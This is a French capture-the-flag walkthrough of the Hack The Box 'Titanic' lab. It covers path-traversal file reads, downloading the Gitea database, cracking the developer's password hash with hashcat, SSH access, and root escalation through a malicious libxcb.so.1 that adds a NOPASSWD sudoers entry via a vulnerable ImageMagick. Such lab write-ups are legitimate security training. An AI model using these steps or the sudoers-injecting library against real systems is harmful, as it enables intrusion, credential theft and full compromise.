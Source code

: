 
## Enumération:

- **IP**:
```
10.10.11.55
```

- **OS**: Linux

- **nmap**:

```
nmap -sC -sV -oN titanic.nmap 10.10.11.55
```

![[Pasted image 20250405225500.png]]

On peut voir le **web** du serveur on se connectant avec le port **80**
![[Pasted image 20250405225858.png]]

En remplissant le formulaire suivant, le site te redirige vers un lien qui télécharge un fichier **.json** qui stocke touts ce que tu a entré dans le formulaire.
![[Pasted image 20250405230702.png]]

En remplaçant `/download?ticket=9543a70f-ca16-4d00-8fb7-b486b81338f4.json` par `/download?ticket=../../../../etc/passwd`, il lance un **téléchargement**. Ça veut dire que le serveur est vulnérable à **LFI** ou **Local File Inclusion**

Dans le fichier `/etc/passwd.txt` que nous venons de télécharger, on peut trouver que `developer`  est l'utilisateur principale:

![[Pasted image 20250405233050.png]]

Dans le fichier `etc/hosts` on peut constater qu'il y un autre non de domaine : `dev.titanic.htb`

![[Pasted image 20250405233448.png]]
En tapant `dev.titanic.htb` on tombe sur ce site:

![[Pasted image 20250405233848.png]]
On peut s'inscrire au site et voir dans liste des repository, 2 repository:

![[Pasted image 20250405234526.png]]
dans `developer/docker-config/gitea/docker-compose.yml` on peut constater que les données sont stocké dans **/home/developer/gitea/data**:

![[Pasted image 20250405234901.png]]

En faisant référence à la documentation de Gitea, nous apprenons que toutes les données utilisateur sont stockées dans un fichier `gitea.db` sqlite, et le fichier est à son tour stocké en `/data /gitea` dans l'image docker. Le chemin final est:

```
/home/developer/gitea/data/gitea/gitea.db
```

nous allons télécharger ce fichier avec la commande :

```
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

On peut ouvrir le fichier avec la commande `sqlite3`

![[Pasted image 20250406093501.png]]

On va maintenant essayer de retirer un **mdp** des **user**:

```
SELECT lower_name, passwd, salt FROM user;
```

On trouver un mdp **haché** de l'utilisateur **developer**:
```
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cb  
c8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
```

On doit d'abord transformer **hash** en **sha256** avec le script : [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py)
En entrant :

```
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cb  
c8efc5dbef30bf1682619263444ea594cfb56:8bf3e3452b78544f8bee9400d6936d34
```
comme **entrée** lors de la compilation, on obtient:

```
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

On peut maintenant cracker ce hash avec la commande :

```
hashcat -m 10900 gitea_hash.txt /usr/share/wordlists/rockyou.txt
```

On obtient un mot de passe `25282528`

![[Pasted image 20250406172348.png]]

On peut maintenant se connecter à l'utilisateur **developer** avec **ssh** avec la commande:
`ssh developer@titanic.htb`

![[Pasted image 20250406172558.png]]

---
## Augmentation des privilèges

Dans le répertoire `/opt/scripts` on trouver le fichier `identify_images.sh`. En inspectant le contenu du fichier, on peut déduire qu'Il appelle la commande d'identification d' **ImageMagick** sur les images téléchargées. La version de **ImageMagick** dans le système est le **ImageMagick 7.1.1-35** qui  **est vulnérable à un exploit de code arbitraire connu**.

On va créer un fichier appelé **a.c** dans le répertoire `/opt/app/static/assets/images`, et y mettre le code suivant:

```
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```
```

La commande ci-dessous fait que je peux utiliser la commande `sudo` sans entrer un mdp:
```
gcc -fPIC -shared -o ./libxcb.so.1 a.c -nostartfiles
```

maintenant, op peut taper `sudo cat /root/root.txt` pour avoir le rout flag